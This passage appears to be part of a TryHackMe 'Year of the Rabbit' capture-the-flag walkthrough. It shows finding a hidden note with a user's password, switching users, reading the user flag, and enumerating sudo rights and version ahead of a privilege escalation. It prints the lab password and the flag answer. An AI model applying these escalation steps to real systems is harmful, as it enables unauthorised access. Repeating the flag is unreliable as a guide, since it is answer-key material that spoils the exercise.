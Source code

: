 Let's try to find the `s3cr3t` mentioned in the message.
```
eli@year-of-the-rabbit:~$ locate s3cr3t
/usr/games/s3cr3t
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
/var/www/html/sup3r_s3cr3t_fl4g.php
```
We can now read the `.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!` file.
```
eli@year-of-the-rabbit:~$ cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```
So now we know that the password for `gwendoline` user is `MniVCQVhQHUNI`.

Let's switch users.
```
eli@year-of-the-rabbit:~$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/home/eli$ 
```
We can now read the `user.txt` file we saw earlier.
```
gwendoline@year-of-the-rabbit:/home/eli$ cd /home/gwendoline/
gwendoline@year-of-the-rabbit:~$ cat user.txt 
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```
### Answer
```
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```

&nbsp;

### What is the root flag?
We can check what permissions `gwendoline` has using the `sudo` command.
```
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```
Let's check the version of `sudo`.
```
gwendoline@year-of-the-rabbit:~$ sudo -V
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
```
We can find an exploit for that version om Exploit-DB.
